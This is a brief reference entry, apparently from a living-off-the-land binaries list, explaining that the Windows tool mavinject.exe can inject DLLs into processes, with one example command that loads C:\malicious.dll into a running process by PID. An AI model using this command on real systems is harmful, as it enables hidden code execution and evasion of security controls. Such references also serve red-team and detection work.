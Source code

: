 # What is it?
*mavinject.exe is used for DLL injection.*

## How to abuse it
*Injects malicious DLLs into processes.*

## Example Attack
```
mavinject.exe <PID> /INJECTRUNNING C:\malicious.dll
```
